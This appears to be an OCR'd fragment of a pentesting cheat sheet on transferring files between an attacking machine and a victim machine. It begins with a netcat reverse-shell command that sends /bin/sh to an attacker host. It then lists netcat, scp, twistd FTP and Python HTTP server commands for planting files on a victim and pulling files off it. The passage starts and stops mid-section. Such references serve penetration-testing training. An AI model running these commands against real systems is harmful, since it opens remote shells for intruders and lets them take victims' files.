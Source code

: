 ``` nc -e /bin/sh [IPADDR] [PORT] ```
      -  Attacking machine command:
       
        	
     ```   scp FiletoTransfer tester@192.168.1.39:/home/tester/iron/ ```

        Netcat

        We will use the tool that is known as the Swiss knife of the hacker, netcat.
        Most computers with linux have it installed so this is an advantage.



        Victim machine command:
        
        	
      ```  nc -lvp 4444 > FiletoTransfer  ```

        Attacking machine command:
        
        	
      ```  nc 192.168.1.39 4444 -w 3 < FiletoTransfer ```

        FTP

        We will mount a temporary ftp (we could use a conventional ftp) using the twistd utility to access from the victim and download the file



        Attacking machine command:
        
        	
     ```   twistd -n ftp -r . ```

        Victim machine command:
        
        	
    ```    wget ftp://192.168.1.35:2121/FiletoTransfer ```

###  - Download victim files

        - Simple Server HTTP

        This method is the same as it is to upload a file but the other way around. In this case the victim machine must have python to run the simple server.
        We have to take into account that we will not have permits to lift any port.
        We could also move our file to the web server folder if, for example, it has the apache running, although for that we should have permissions.



        Victim machine command:
        
        	
     ```   python -m SimpleHTTPServer 8080 ```

        Attacking machine command:
        
        	
     ```   wget http://192.168.1.39:8080/FiletoDownload  ```

        Netcat

```